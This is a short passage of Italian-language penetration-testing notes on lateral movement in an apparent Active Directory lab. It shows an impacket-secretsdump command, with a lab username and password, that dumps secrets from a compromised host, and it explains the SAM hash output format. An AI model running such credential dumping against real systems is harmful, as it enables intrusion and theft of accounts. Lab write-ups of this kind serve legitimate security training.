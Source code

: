 ### **Lateral Movement**
Prima di saltare da una macchina all'altra è essenziale ottenere tutti i "Secrets" della macchina pwnata.
```bash
impacket-secretsdump NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22
```
![[Pasted image 20230906162707.png]]
Per quanto riguarda il SAM i risultato sono mostrati cosi:
<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
Questo valore sulle LM hash significa vuoto aad3b435b51404eeaad3b435b51404ee
